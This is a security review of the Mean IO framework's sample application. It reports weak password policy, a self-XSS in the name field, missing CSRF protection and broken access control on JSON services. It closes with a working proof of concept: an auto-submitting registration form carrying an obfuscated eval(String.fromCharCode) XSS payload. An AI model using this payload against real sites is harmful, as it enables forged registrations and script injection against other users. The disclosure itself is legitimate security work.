 Mean IO security review
=======================

I've been meaning to review Mean IO for some time and finally found the time to take a quick look at it

Password handling
-----------------
I was really happy to see to see that Mean IO is using pbkdf/2 for password hashing before storing it. It's using a 16 byte salt created using crypto.randomBytes and it's using 10000 rounds with a keylength of 64 bytes.

The password policy is however pretty weak. The only requirement is that passwords are between 8 and 20 characters. There are no character set requirements (upper, lower, numeric, special) and the maximum length of 20 is very odd. Why set such a low maximum length. The storage size is the same for 8 character and 100 character password after hashing.

Also there is no rate limiting or account lockout on password guessing. An external attacker can guess as many times he/she wants for the same account without getting stopped by temporary accounts lockout after a given number of tries or a captcha.


Cross Site Scripting (XSS)
--------------------------
While the templates seem to use proper escaping for most cases, there is a Cross Site Scripting vulnerability in the user's `name` field. This appears after registering a user with a username of `</script><script>alert(1)//`. This is also the only location where data is handled differently from the other data (e.g. loading data through JSON services). The problem here is that the escaping does not take into account the dual context. It is correctly escaping the data for JSON, but does not recognize that the script/JSON context is within an HTML context. This is essentially a self-XSS as it only affects the use logged in with the malicious `name` field.

I would prefer if inline `<script>`-tags were avoided all together. This would make it easier to make use of the Content Security Policy without enabling 'unsafe-inline'.

Cross Site Request Forgery
--------------------------
The MEAN IO default application does not appear to make use of any CSRF-protection. While there is a CSRF middleware available in express.js, it has not been enabled. This makes it possible to create CSRF-attacks that create, update or delete articles. CSRF also makes it possible to attack the registration process and use the XSS-attack described above against other users.

Data manipulation and lack of access control
--------------------------------------------
The MEAN IO currently sample application does not have a proper access control. While only the author of an article, can edit or delete that article through the UI, an attacker can easily edit or delete other users' articles by invoking the JSON services directly.

Also the application does not limit which fields can be altered. As an example the timestamp of the article is not editable through the UI. But again by invoking the JSON service directly, an attacker can alter fields expected to be read-only.

Sample exploit code
-------------------
CSRF exploiting the self-XSS in the `name`-field:

````
<body onload="document.getElementById('aForm').submit()">
<form id="aForm" method="post" action="http://localhost:3000/register" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="username" value="someusername">
<input type="hidden" name="email" value="test@example.com">
<input type="hidden" name="name" value='</script><script>alert(1);eval(String.fromCharCode(119,105,110,100,111,119,46,117,115,101,114,32,61,32,123,34,110,97,109,101,34,58,34,104,97,99,107,101,100,34,44,34,95,105,100,34,58,34,53,52,49,100,97,49,50,99,48,97,99,101,52,51,55,51,55,49,48,48,56,97,102,57,34,44,34,117,115,101,114,110,97,109,101,34,58,34,104,97,99,107,101,100,34,44,34,114,111,108,101,115,34,58,91,34,97,117,116,104,101,110,116,105,99,97,116,101,100,34,93,125))//'>
<input type="hidden" name="password" value="AAAAAAAA">
<input type="hidden" name="confirmPassword" value="AAAAAAAA">
</form>
</body>
````













